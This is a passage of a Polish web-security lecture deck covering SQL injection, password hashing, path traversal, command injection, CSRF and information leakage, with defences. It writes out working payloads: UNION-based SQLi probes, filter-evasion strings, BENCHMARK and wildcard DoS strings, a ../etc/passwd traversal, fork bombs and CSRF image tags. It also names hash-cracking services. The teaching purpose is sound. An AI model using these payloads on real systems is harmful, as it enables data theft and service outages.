  Bob -> App : Request 1
  ... ...
  Bob -> App : Request n
end
#+END_SRC

#+CAPTION: Scenario of the SQL Injection attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-sql-scenario.png]]

** Szukanie podatności - string

Badając parametr typu string:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport
#+END_EXAMPLE

Można spróbować:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport'
#+END_EXAMPLE

a potem
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport''
#+END_EXAMPLE

Czasami taki test może skończyć się niepowodzeniem ze względu na błędy
JS. Może to jednak oznaczać potencjalną podatność na XSS (JS
injection). Obejściem problemu może być:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport%27%27
#+END_EXAMPLE

** Szukanie podatności - liczba

Gdy parametr jest liczbą:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=5
#+END_EXAMPLE

Sprawdźmy:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=6-1
#+END_EXAMPLE

Można też tak:
#+BEGIN_EXAMPLE
www.example.com/pages/6-1/show
#+END_EXAMPLE

Uwaga – to nie zadziała:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=4+1
#+END_EXAMPLE

Obejście:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=4%2B1
#+END_EXAMPLE

** Znaki specjalne w URL a komentarze SQL

Znaki specjalne w url:

- =+= - zamiana na spacje
- =#= - anchor, nie wysyłane do serwera
- =&= - rozdziela parametry
- =%23= - Zakodowany znak #
- =%0A= - Zakodowana nowa linia 
 
Komentarze w SQL:
- =--=
- =#=
- =/*= 

** Poznanie struktury zapytania
Atakujący musi poznać strukturę części zapytania jakie jest wykonywane
przed fragmentem podatnym na SQLi. Chodzi tutaj głównie o:

- liczbę kolumn
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=5 order by 3 --
www.example.com/showPage.php?id=5 order by 7 --
www.example.com/showPage.php?id=5 order by 12 --
#+END_EXAMPLE

- rodzaj kolumn i użycie danych z nich pochodzących
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=-1 union select 1,2,3,4,5,6,7,8,9,10 --
#+END_EXAMPLE

** Odkrycie rodzaju bazy danych

#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=-1 union select 1,2,3,4,version(),6,7,8,9,10 --
#+END_EXAMPLE

W podobny sposób można poznać login użytkownika DB (=user=,
=current_user=, =user()=), nazwę schematu (=current_database()=, =database()=)
i serwera (=name=, =instance_name=).

** Pomocne linki
Funkcje i sposób odkrycia tych danych są zależne od bazy
danych. Dostępne są porównania tego typu funkcji dla różnych baz:

- http://pentestmonkey.net/category/cheat-sheet/sql-injection
- http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/
- http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/

W czasie pracy na zapytaniem może przydać się szybki dostęp do różnych
silników baz danych http://sqlzoo.net

** Poznanie struktury bazy

Oracle:

#+BEGIN_SRC sql
-- List tables
 SELECT owner, table_name 
   FROM all_tables;

-- List columns
 SELECT column_name 
   FROM all_tab_columns 
  WHERE table_name = 'foo'
    AND owner = 'bar';
#+END_SRC

MySQL:

#+BEGIN_SRC sql
-- List tables
 SELECT table_schema, table_name
   FROM information_schema.tables;

-- List columns
 SELECT table_name, column_name 
   FROM information_schema.columns 
  WHERE table_name = 'foo'
    AND table_schema = 'bar';
#+END_SRC

** Wykonywanie własnych zapytań
Wiedząc jaka jest struktura bazy danych atakujący może zacząć
zasadniczy atak i rozpocząć pobieranie danych, gdzie z reguły
najcenniejszą są dane o użytkownikach i ich hasłach.

Jeśli hasła użytkowników zapisane są w czystym tekście albo tylko
zahaszowane prostą funkcją (MD5) to w tym momencie atakujący ma już
pełną kontrolę nad aplikacją.

** Odzyskiwanie haseł z hash-y
Mając hashe haseł potrzebujemy poznać hasła na podstawie których
zostały utworzone:

MD5, SHA1 z użyciem GPU: 
- http://bvernoux.free.fr/md5/index.php
- http://www.elcomsoft.com/lhc.html

Hasła systemowe, bazy danych
- http://www.openwall.com/john/
- https://hashkiller.co.uk/default.aspx
- http://www.md5online.org/

** Hashkiller.co.uk - statystyki

|    | Algorithm               | Total cracked |
|----+-------------------------+---------------|
|  1 | MD5                     | 27,220,696    |
|  2 | SHA1                    | 3,169,684     |
|  3 | MySQL4.1/MySQL5         | 1,365,423     |
|  4 | Double MD5              | 1,150,687     |
|  5 | NTLM                    | 1,127,773     |
|  6 | md5(sha1($pass))        | 436,848       |
|  7 | MD4                     | 254,355       |
|  8 | md5(md5(md5($pass)))    | 188,944       |
|  9 | sha1(md5($pass))        | 120,828       |
| 10 | sha1(sha1($pass))       | 14,725        |
| 11 | sha1(sha1(sha1($pass))) | 3,078         |

** Łamanie hashy za pomocą GPU

#+BEGIN_QUOTE
NVIDIA GeForce 8800 Ultra can calculate more than 200 million hashes
per second

-- https://en.wikipedia.org/wiki/MD5
#+END_QUOTE

Porównajmy dwa alfabety:
- A1 [a-z0-9] => 36 znaków
- A2 [a-zA-Z0-9] => 62 znaki

#+REVEAL: split

|   A1 | Ilość kombinacji | Czas        |   A2 | Ilość kombinacji | Czas            |
|------+------------------+-------------+------+------------------+-----------------|
| 36^1 | 36               | ~ 0s        | 62^1 | 62               | ~ 0s            |
| 36^2 | 1 269            | ~ 0s        | 62^2 | 3 844            | ~ 0s            |
| 36^3 | 46 656           | ~ 0s        | 62^3 | 238 328          | ~ 0s            |
| 36^4 | 1 679 616        | ~ 0s        | 62^4 | 14 776 336       | ~ 0s            |
| 36^5 | 60 466 176       | 0.3s        | 62^5 | 916 132 832      | 4.5s            |
| 36^6 | 2 176 782 336    | 11s         | 62^6 | 56 800 235 584   | 284s            |
| 36^7 | 78364164096      | 391s        | 62^7 | 3.5216146e+12    | 17608s (5h)     |
| 36^8 | 2.8211099e+12    | 14105s (4h) | 62^8 | 2.1834011e+14    | 1091700s (303h) |


#+REVEAL: split

Wszystkie znaki ASCII z podstawowego zakresu => 95 znaków. Maksymalny czas
łamania hasła 8 znakowego: 9214h (rok). 

** Jak nie przechowywać haseł

- plain text
- md5, sha1
- sha256, sha512
- salted passwords

** Jak przechowywać hasła?

- bcrypt 
- PBKDF2

** Łamanie bcrypt?

Cluster 25 Radeonów ma przepustowość na sekundę:
- NTLM - 348 miliardów
- MD5 - 180 miliardów
- SHA1 - 65 miliardy
- bcyprt - 71 tysięcy

** Modyfikowanie danych (stacked queries)

Duża część dokumentacji na temat SQLi pokazuje przykłady gdzie
wstrzyknięty kod dopełnia główne zapytanie ale także dodaje kolejne
zapytania, z reguły modyfikujące dane lub bazę:

#+BEGIN_SRC sql
 SELECT * FROM users WHERE login = 'x'; DROP TABLE users; SELECT '1'
#+END_SRC

Obecnie większość bibliotek do obsługi baz danych nie pozwala by w
ramach zapytania zostały wykonane dodatkowe zapytania a w
szczególności o różnym typie. Stąd ten atak wydaje się być bardziej
teoretyczny niż praktyczny

** Blind SQL Injection
Czasami mamy do czynienia z sytuacją, że wynik zapytania nie jest
bezpośrednio wyświetlany w aplikacji ale zależy od niego logika
przetwarzania strony. 

Przykłady:

1. Aplikacja wykonuje zapytanie =SELECT= nie czytając wartości kolumn,
   a jedynie sprawdzając czy zwraca ono jakieś wiersze lub nie. Na tej
   podstawie może np. wyświetlać na wynikowej stronie dedykowany
   komunikat („Masz nieprzeczytane wiadomości”)
2. Aplikacja oczekuje, że zapytanie zwróci dokładnie jeden wiersz i go
   wyświetla, a nie mamy możliwości wpłynięcia na ten wiersz
3. Podatność jest w podzapytaniu przy operatorze =EXISTS/NOT EXISTS=
4. Aplikacja na podstawie zapytania wykonuje określoną akcję (np
   loguje), ale nie zwraca wyników bezpośrednio do widoku

** Blind SQL Injection
Możemy też spotkać przypadek, gdzie zapytanie do którego są przekazane
parametry stanowią część większego zapytania:

#+BEGIN_SRC sql
SELECT * 
  FROM table1
 WHERE id IN ( SELECT id 
                 FROM table2 
                WHERE param='$param')
#+END_SRC

W takiej sytuacji ominięcie problemu składni zapytania po
wstrzyknięciu kodu nie zawsze może być proste czy wykonalne.

** Blind SQL Injection

Wstrzyknięty kod sprowadza się do odpowiedzi na pytanie (Tak/Nie)

#+BEGIN_SRC sql
 SELECT * 
   FROM orders
  WHERE id = 5 
    AND 1 = (CASE WHEN condition THEN 1 else 0 END) limit 1;
#+END_SRC

#+BEGIN_SRC sql
 SELECT count(*) 
   FROM orders
  WHERE status = 'pending'
    AND substring(@@version, 1, 1)=5
#+END_SRC

** Second Order SQL Injection
O ataku *Second Order SQLi* mówimy gdy wartość przechowywana w bazie
danych zostaje użyta do budowy innego zapytania.

Atak następuje w kilku fazach:
- Atakujący dodaje wpis w miejscu które nie jest wrażliwe na SQLi
  (poprawnie obsługuje znaki kontrolne SQL)
- Aplikacja w innym miejscu używa tych danych do budowy kolejnego
  zapytania. Często nie filtruje danych pobieranych z bazy danych,
  traktując je jako bezpieczne

** Second Order SQL Injection - przykład
Atakujący tworzy konto użytkownika o nazwie: 

#+BEGIN_SRC sql
 x' or user_id=user_id --
#+END_SRC

Jeśli aplikacja buduje dowolne zapytanie z wykorzystaniem loginu:

#+BEGIN_SRC sql
 SELECT * 
   FROM orders 
  WHERE user_id='$userLogin'
#+END_SRC

To atakujący zobaczy więcej niż powinien.

** Porównywanie łańcuchów - MySQL

Jaki będzie wynik?

#+BEGIN_SRC sql
SELECT 'a'  = 'a'      t1, 
       'a'  = 'A'      t2, 
       'a'  = 'a '     t3, 
       'a'  = 'A '     t4, 
       'a ' = 'a'      t5,
       'a ' = 'a     ' t6,
       ' a' = 'a'      t7,
       'a'  = ' a'     t8,
       'a'  = ' a '    t9;
#+END_SRC

** Porównywanie łańcuchów - MySQL - odpowiedź

#+BEGIN_SRC sql
SELECT 'a'  = 'a'      t1, 
       'a'  = 'A'      t2, 
       'a'  = 'a '     t3, 
       'a'  = 'A '     t4, 
       'a ' = 'a'      t5,
       'a ' = 'a     ' t6,
       ' a' = 'a'      t7,
       'a'  = ' a'     t8,
       'a'  = ' a '    t9;
#+END_SRC

#+BEGIN_EXAMPLE
+----+----+----+----+----+----+----+----+----+
| t1 | t2 | t3 | t4 | t5 | t6 | t7 | t8 | t9 |
+----+----+----+----+----+----+----+----+----+
|  1 |  1 |  1 |  1 |  1 |  1 |  0 |  0 |  0 |
+----+----+----+----+----+----+----+----+----+
#+END_EXAMPLE

** Porównywanie łańcuchów - PostgreSQL

Jaki będzie wynik?

#+BEGIN_SRC sql
SELECT 'a'  = 'a'      t1, 
       'a'  = 'A'      t2, 
       'a'  = 'a '     t3, 
       'a'  = 'A '     t4, 
       'a ' = 'a'      t5,
       'a ' = 'a     ' t6,
       ' a' = 'a'      t7,
       'a'  = ' a'     t8,
       'a'  = ' a '    t9;
#+END_SRC

** Porównywanie łańcuchów - PostgreSQL - odpowiedź

#+BEGIN_SRC sql
SELECT 'a'  = 'a'      t1, 
       'a'  = 'A'      t2, 
       'a'  = 'a '     t3, 
       'a'  = 'A '     t4, 
       'a ' = 'a'      t5,
       'a ' = 'a     ' t6,
       ' a' = 'a'      t7,
       'a'  = ' a'     t8,
       'a'  = ' a '    t9;
#+END_SRC

#+BEGIN_EXAMPLE
+----+----+----+----+----+----+----+----+----+
| t1 | t2 | t3 | t4 | t5 | t6 | t7 | t8 | t9 |
+----+----+----+----+----+----+----+----+----+
|  1 |  0 |  0 |  0 |  0 |  0 |  0 |  0 |  0 |
+----+----+----+----+----+----+----+----+----+
#+END_EXAMPLE

** Porównywanie łańcuchów - Oracle

#+BEGIN_SRC sql
SELECT CASE WHEN 'a'  = 'a'      THEN 1 ELSE 0 END t1, 
       CASE WHEN 'a'  = 'A'      THEN 1 ELSE 0 END t2, 
       CASE WHEN 'a'  = 'a '     THEN 1 ELSE 0 END t3, 
       CASE WHEN 'a'  = 'A '     THEN 1 ELSE 0 END t4,
       CASE WHEN 'a ' = 'a'      THEN 1 ELSE 0 END t5,
       CASE WHEN 'a ' = 'a     ' THEN 1 ELSE 0 END t6,
       CASE WHEN ' a' = 'a'      THEN 1 ELSE 0 END t7,
       CASE WHEN 'a'  = ' a'     THEN 1 ELSE 0 END t8, 
       CASE WHEN 'a'  = ' a '    THEN 1 ELSE 0 END t9
  FROM dual
#+END_SRC

** Porównywanie łańcuchów - Oracle - odpowiedź

#+BEGIN_SRC sql
SELECT CASE WHEN 'a'  = 'a'      THEN 1 ELSE 0 END t1, 
       CASE WHEN 'a'  = 'A'      THEN 1 ELSE 0 END t2, 
       CASE WHEN 'a'  = 'a '     THEN 1 ELSE 0 END t3, 
       CASE WHEN 'a'  = 'A '     THEN 1 ELSE 0 END t4,
       CASE WHEN 'a ' = 'a'      THEN 1 ELSE 0 END t5,
       CASE WHEN 'a ' = 'a     ' THEN 1 ELSE 0 END t6,
       CASE WHEN ' a' = 'a'      THEN 1 ELSE 0 END t7,
       CASE WHEN 'a'  = ' a'     THEN 1 ELSE 0 END t8, 
       CASE WHEN 'a'  = ' a '    THEN 1 ELSE 0 END t9
  FROM dual
#+END_SRC

#+BEGIN_EXAMPLE
+----+----+----+----+----+----+----+----+----+
| T1 | T2 | T3 | T4 | T5 | T6 | T7 | T8 | T9 |
|----+----+----+----+----+----+----+----+----|
|  1 |  0 |  1 |  0 |  1 |  1 |  0 |  0 |  0 |
+----+----+----+----+----+----+----+----+----+
#+END_EXAMPLE

** Omijanie filtrów
Często programiści piszą swoje własne, "domowe" sposoby zapobiegania
SQLi. Dużą cześć można łatwo obejść:

#+BEGIN_EXAMPLE
- ?id=-1/**/union/**/select/**/…
- ?id=-1/*ab*/union/*cd*/select/*ef*/…
- ?id=-1 union … where login = char (77,121,83,81,76)
- ?id=-1 union … where login = concat (char(77), char(121))
- (mysql) ?id=-1 union … where login = 0×414243
#+END_EXAMPLE
  
** Omijanie filtrów - Apache mod_security
#+BEGIN_EXAMPLE

#Prevent SQL injection in cookies
SecFilterSelective COOKIE_VALUES "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300011,rev:1,severity:2,msg:'Generic SQL injection in cookie'"

#Prevent SQL injection in UA
SecFilterSelective HTTP_USER_AGENT "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300012,rev:1,severity:2,msg:'Generic SQL injection in User Agent header'"

# Generic filter to prevent SQL injection attacks
# Understand that all SQL filters are very limited and are very difficult to prevent false postives and negatives.
# Please report false positives/negatives to mike@gotroot.com
SecFilter "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300013,rev:1,severity:2,msg:'Generic SQL injection protection'"
#+END_EXAMPLE
   
** Zapobieganie SQLi
- Używać =PreparedStatements=
- Używać =StoredProcedures=
- Escape-ować dane pochodzące od użytkownika
  
** Pytanie
Czy możemy być pewni co do odporności na SQLi gdy do komunikacji z
bazą danych używamy:

- PreparedStatement
- Hibernate
- Procedur składowanych

** Odpowiedź

- PreparedStatement
#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = '" + userName + "'");
#+END_SRC

#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = ?");
ps.setString(1, userName);
#+END_SRC

#+REVEAL: split

- Hibernate
#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
Query q = session.createQuery("from User u where u.userName ='" +userName "'");
#+END_SRC

#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
Query q = session.createQuery("from User u where u.userName = :userName");
q.setParameter("userName", userName);
#+END_SRC

#+REVEAL: split

- Stored procedure
#+BEGIN_SRC sql
sqlStmt := 'SELECT id FROM users WHERE userName = ''' || p_username || '''';
EXECUTE IMMEDIATE sqlStmt INTO userId;
#+END_SRC

#+BEGIN_SRC sql
sqlStmt := 'SELECT id FROM users WHERE userName = :1';
EXECUTE IMMEDIATE sqlStmt USING p_userName;
#+END_SRC

** SDOS (SQL Denial of Service)

Jeśli wstrzyknięty kod powoduje wykonanie zasobożernego zapytania,
możemy doprowadzić do sytuacji, że baza danych będzie zbyt zajęta
naszymi zapytaniami by przetwarzać te prawdziwe. Ponawianie zapytania
SDOS wzmacnia działanie, chociaż czasami może wystarczyć pojedyncze
zapytanie. SDOS może zostać przeprowadzony w oparciu o:

- rozbudowane zapytanie - wielokrotne połączenia dużych tabel,
  iloczyny kartezjańskie, operator IN dla dużego zbioru, podzapytania,
  zapytania hierarchiczne

- ataki na wildcard-y

- wykorzystanie funkcji diagnostycznych
#+BEGIN_EXAMPLE
 x' AND BENCHMARK(9999999,BENCHMARK(999999,BENCHMARK(999999,MD5(NOW()))))=0 OR '1'='1
#+END_EXAMPLE

** SQL Wildcards attack
Jednym z typów SDOS jest atak na zapytania które korzystają z
operatora =LIKE=. Często piszemy wyszukiwanie w aplikacjach w ten
sposób:

#+BEGIN_SRC sql
SELECT * FROM news WHERE title LIKE '%Java%'
#+END_SRC

Z reguły takie zapytania wykonują się bardzo szybko, ale użycie
odpowiednio spreparowanych parametrów może sprawić, że to samo
zapytanie będzie wykonywać się kilkadziesiąt razy dłużej konsumując
wszystkie dostępne zasoby.

** SQL Wildecards attack - przykłady

#+BEGIN_EXAMPLE

%_[^!_%/%a?F%_D)_(F%)_%([)({}%){()}£$&N%_)$*£()$*R"_)][%](%[x])%a][$*"£$-9]_%

%64_[^!_%65/%aa?F%64_D)_(F%64)_%36([)({}%33){()}£$&N%55_)$*£()$*R"_)][%55](%66[x])%ba][$*"£$-9]_%54

_[r/a)_ _(r/b)_ _(r-d)_

%n[^n]y[^j]l[^k]d[^l]h[^z]t[^k]b[^q]t[^q][^n]!%

%_[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[! -z]@$!_%

#+END_EXAMPLE

** SQL Wildcards attack - zapobieganie
- do wyszukiwania pełnotekstowego używać indeksów (SOLR) lub baz NoSQL
- walidować parametry, ograniczyć znaki specjalne i operatory
- ograniczyć długość tekstu 
- wprowadzić timeout-y dla zapytań
- monitorować aktywność bazy danych

* Pozostałe ataki
** Listowanie użytkowników
Elementy aplikacji związane z logowaniem, odzyskiwaniem hasła, nazwy
konta itp nie powinny ułatwiać znajdowania nazw istniejących
użytkowników. Błędne logowanie do aplikacji powinno zwrócić komunikat:

*Użytkownik lub hasło nie są prawidłowe*

zamiast

*Podany użytkownik nie istnieje*

** Plik robots.txt
Plik =robots.tx= wchodzący w skład mechanizmu *Robots Exclusion
Protocol* może być żródłem informacji o ukrytych zasobach. Niezależnie
od niego można sprawdzić adresy takie jak:

- test.przykladowa-strona.pl
- dev.przykladowa-strona.pl
- old.przykladowa-strona.pl
- new.przykladowa-strona.pl
- przykladowa-strona.pl/nowa
- Google: site:przykladowa-strona.pl

** Przykład pliku robots.txt

#+BEGIN_EXAMPLE
User-agent: *
Disallow: /administrator/
Disallow: /cache/
Disallow: /components/
Disallow: /images/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /libraries/
Disallow: /media/
Disallow: /modules/
Disallow: /plugins/
Disallow: /templates/
Disallow: /tmp/
Disallow: /xmlrpc/
Disallow: /pliki/
#+END_EXAMPLE

** Ukryte zasoby (Forceful browsing)
Możemy być pewni że atakujący (bądź skrypt którego użyje) będzie
szukał ukrytych, potencjalnie ciekawych zasobów jak:
- =/logs/=
- =/version=
- =/phpMyAdmin=
- =/probe=
- =/manager/html=
- =/swagger=
- =/monitoring=
- =/admin=
- =/admin.jsp~=
- =/admin.jsp.bak=

** Lista katalogów OWASP ZAP

Dostępne są gotowe listy nazw zasobów do przeszukania:

https://github.com/zaproxy/zap-extensions/tree/master/src/org/zaproxy/zap/extension/directorylistv2_3/files/fuzzers/dirbuster

największa zawiera ponad 1.2M wpisów

#+BEGIN_EXAMPLE
index, images, download, 2006, news, crack, serial, warez, full, 12, contact, about, search, spacer, privacy, 11, logo, blog, new, 10, cgi-bin, .git, .svn, .hg, .bzr, faq, rss, home, img, default, 2005, products, sitemap, archives
#+END_EXAMPLE

** Insecure Direct Object Reference

Przekazywanie do aplikacji identyfikatorów z bazy danych w dodatku
połączone z niewłaściwą kontrolą dostępu może prowadzić do ujawnienia
danych, mimo że np zabezpieczyliśmy kod przed SQLi.

Przykłady:
- http://wklej.org/id/{id}/ - kolejne liczby
- http://collabedit.com/{id} - losowy ciąg znaków [a-z0-9]{5}
- http://codeshare.io/{id} - losowy ciąg znaków [a-zA-Z0-9]{5}
- http://wstaw.org/w/3GVB/ - kolejne znaki  [A-Z0-9]{4}
- http://etxt.pl - kolejne znaki [a-z0-9]{3}
- http://wklej.se/ - kolejne liczby

** Wklej.org - przykład 
#+BEGIN_EXAMPLE
http://wklej.org/id/{liczba}/
#+END_EXAMPLE

#+BEGIN_SRC 
error_reporting(E_ALL);
define('API_KEY', 'aa7xxxxx');
define('API_SECRET', '2adxxxxxxxxxxxxxxxxxxxxxxxxxxxxx');
define('API_VERSION', 1);
$SimPayLibs = 'SimPay.class.php';
#+END_SRC

** Brak walidacji danych

- Średnia ocena :: Serwis daje użytkownikom możliwość głosowania na
                   dany produkt/artystę itp. Oceny są od 1-5,
                   wybierane jako wartości z combobox-a; na podstawie
                   ocen liczona jest średnia i ranking. 

- Ukryte pola :: Użytkownik aplikacji nie ma prawa do modyfikowania
                 pewnych pól, jednakże implementacja formularza
                 zakłada wysyłanie ich do użytkownika jako pola ukryte

** Path Traversal

Prosty atak pozwalający na dostęp do treści, których właściciel raczej
nie miał ochoty nam udostępnić

#+BEGIN_EXAMPLE
www.example.com/showPage.php?p=1.html
#+END_EXAMPLE

Łatwo można wyjść do dowolnego miejsca:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?p=../../../../../../../../etc/passwd
#+END_EXAMPLE

** OS command injection
Kolejny prosty atak, który wykorzystuje lukę spowodowaną przez fakt
uruchamiania komend systemowych wraz z parametrami przekazanymi wraz z
requestem.

Jak dodawać swoje komendy?
- nowa linia (=%0A=)
- =;=
- =&&=
- =|=

** Fork bomb
Atak typu DoS który można wykonać w ramach *OS command
injection*. Polega on na uruchomieniu kodu, którego jedynym zadaniem
jest tworzenie kopii samego siebie.

- Windows
#+BEGIN_EXAMPLE
%0|%0
#+END_EXAMPLE

- Bash
#+BEGIN_EXAMPLE
:(){ :|:& };:
#+END_EXAMPLE

** Cross Site Request Forgery

*CSRF* (CSRF, XSRF, session riding, one-click attack) to atak w którym
atakujący wymusza w przeglądarce wykonanie request-ów w kontekście
innego użytkownika. W ataku tym nie chodzi o ty by zmieniać treści
stron, lecz by wykorzystać uprawnienia użytkowników zalogowanych do
atakowanej aplikacji. Najczęściej polega on na podrzuceniu
spreparowanych linków lub wstrzyknięcie ich do innych serwisów.

Przykładowe cele ataków:
- zmiana danych kontaktowych, hasła itp
- zamknięcie konta
- opublikowanie artykułu na forum

** CSRF - przyczyna

*Cookies*

(jako jedyna metoda autentykacji użytkownika)

** CSRF - scenariusz

#+BEGIN_SRC plantuml :file images/generated-csrf-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
participant "Aplikacja\nzłego człowieka" as BadApp

Bob -> BadApp : Wrzuca kod wykonujący\nrequest do innej aplikacji
   

John -> App : Pracuje z "dobrą" aplikacją

... Dobry człowiek pozostaje zalogowany ...

John -> BadApp : Klika na link do "złej" aplikacji
activate BadApp
BadApp --> John : Generuje odpowiedź zawierającą\n< img href='http://goodApp.com/deleteAccount' />
deactivate BadApp
John -> John : Przeglądarka wyświetla generuje stronę\ni pobiera wszystkie zasoby
John -> App : GET http://goodApp.com/deleteAccount
activate App
App --> John: 200 OK Account deleted
#+END_SRC

#+CAPTION: Scenario of the CSRF attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-csrf-scenario.png]]

** CSRF - zapobieganie

- Sprawdzone metody
  - Krótkie czasy sesji dla ważnych zasobów
  - Dodatkowa prośba o zalogowanie przed wykonaniem ważnej operacji,
    przejściem do trybu administracyjnego itp.
  - CSRF token - generując formularz można dodać do niego ukryte pole
    zawierające losowy tekst lub liczbę, która zostanie potem
    zweryfikowana z wartością przechowywaną w sesji po stronie serwera
  - Wartość weryfikującą można też wpisać w ciasteczku, które w myśl
    "same origin policy" nie jest dostępne dla skryptów z innych
    strony

#+REVEAL: split

- Mity i półśrodki (co najwyżej utrudniają atak niż mu zapobiegają)
  - Użycie metod innych niż =GET=
  - Sprawdzanie nagłówka =Referer=
  - Używanie nagłówków HTTP specyficznych dla aplikacji

** On Site Request Forgery (OSRF)

Technika bardzo podobna do CSRF z tym że kod zmuszający przeglądarkę
do wykonania nieautoryzowanej akcji zostaje umieszczony wewnątrz
podatnego systemu.

#+BEGIN_SRC html
<img src="http://www.example.com/admin/addUser.php?u=admin2&p=pass" />
#+END_SRC

** ... Injection

Rodzina ataków Injection jest bardzo liczna:
- HTTP Header Injection
- CSS Injection
- Ldap Injection
- XPath Injection
- HQL Injection
- SMTP Injection
- CSS Injection
- CQL Injection
- itd itp

Można założyć że jeśli aplikacja używa danych wprost od użytkownika w
jakimkolwiek języku interpretowanym czy skrypcie to będzie podatna na
atak typu *Injection*.

** Ataki słownikowe

W internecie dostępne są słowniki które mogę znacząco poprawić
skuteczność ataków brute-force:
- wszystkie wyrazy danego języka
- typowe hasła
- hasła które wyciekły z innych serwisów - użytkownicy często używają
  tego samego hasła w wielu miejscach

** Obrona przed atakami słownikowymi
- Opóźnienie :: Dodanie nawet krótkiego opóźnienia podczas błędnego
                logowania znacząco redukuje skuteczność metod
                słownikowych

- Odpowiednie komunikaty :: Elementy aplikacji związane z logowaniem,
     odzyskiwaniem hasła, nazwy konta itp nie powinny ułatwiać
     znajdowania nazw istniejących użytkowników. Błędne logowanie do
     aplikacji powinno zwrócić komunikat: *Użytkownik lub hasło nie są
     prawidłowe* zamiast *Podany użytkownik nie istnieje*

#+REVEAL: split

- Tymczasowe blokowanie konta :: Zablokowanie konta (także tymczasowe)
     po określonej ilości nieudanych prób w jednostce czasu

- Logowanie i blokowanie adresów :: Jeśli dany adres IP wysyła zbyt
     dużo nieudanych prób logowania może to być sygnał, że ktoś
     skanuje z niego naszą aplikację

- Captcha :: Bardzo dobre zabezpieczenie przed atakami słownikowymi na
             hasło użytkownika, jednakże może prowadzić do ułatwienia
             znalezienia istniejących użytkowników

** Odpowiedzi serwera
Przeglądając nagłówki HTTP jaki i sekcję META w standardowej
odpowiedzi serwera:

#+BEGIN_EXAMPLE
curl -v www.foobar.com
wget --server-response www.foobar.com
#+END_EXAMPLE

Można bez wysiłku dostać informacje:

#+BEGIN_EXAMPLE
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15

Server: Microsoft-IIS/8.5
X-AspNet-Version: 4.0.30319
MicrosoftSharePointTeamServices: 16.0.0.5312
#+END_EXAMPLE

czy też:
#+BEGIN_EXAMPLE
<meta name="generator" content="Joomla! 1.5 - Open Source Content Management" />
<meta name="generator" content="Incomedia WebSite X5 Professional 12.0.7.26 - www.websitex5.com" />
<meta name="generator" content="WordPress 4.5.2"/>
#+END_EXAMPLE

** Strony błędów
- Default-owe strony błędów z reguły pokazują dużo informacji
  przydatnych dla programisty
- Domyślna strony błędów może być świetnym źródłem informacji o naszej
  aplikacji, użytych technologiach, wersji serwera, błędach przy
  walidacji danych a czasami nawet haseł do baz danych(!!!)
- Bardzo często spotkamy tam stacktrace albo kawałek źródła (php, asp,
  jsp) który spowodował wystąpienie błędu
- Pozostawienie domyślnych stron błędów jest bardzo niebezpieczne
- Strona błędu która wyświetla ładny komunikat ale w komentarzu HTML
  przechowuje dane o błędzie, nie jest rozwiązaniem problemu
- Stałe frazy z komunikatów błędów mogą zostać użyte jako zapytania w
  Google hackingu

** Komunikaty o błędach - PHP
#+BEGIN_EXAMPLE
Warning: mysql_connect() [function.mysql-connect]: Access denied for user
'xxxxx'@'localhost' (using password: YES) in 
/home/users/xxxxx/public_html/xxxxx.com.pl/inc/mysql_connect.php on line 2

Nie mozna polaczyc z serwerem mysql!
#+END_EXAMPLE

#+BEGIN_EXAMPLE
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[HY000]
[2003] Can't connect to MySQL server on 'xxx.pl' (113)' in
/home/users/xxx/private_html/framework/Db/PDO.php:39 Stack trace: #0
/home/users/xxx/private_html/framework/Db/PDO.php(39): 
PDO->__construct('mysql:host=xxx', 'admin_xxx', 'xyz123') #1
/home/users/xxx/private_html/framework/Controller/Application.php(65): 
Db_PDO->__construct() #2 
/home/users/xxx/private_html/xxx/Controller/Base.php(61):
Controller_Application->__construct(Object(Controller_Front)) #3
/home/users/xxx/private_html/framework/Controller/Front.php(93):
Controller_Base->__construct(Object(Controller_Front)) #4
/home/users/xxx/public_html/xxx/index.php(61): Controller_Front->run() #5
{main} thrown in /home/users/xxx/private_html/framework/Db/PDO.php on line 39
#+END_EXAMPLE

** Strona o bezpieczeństwie webaplikacji

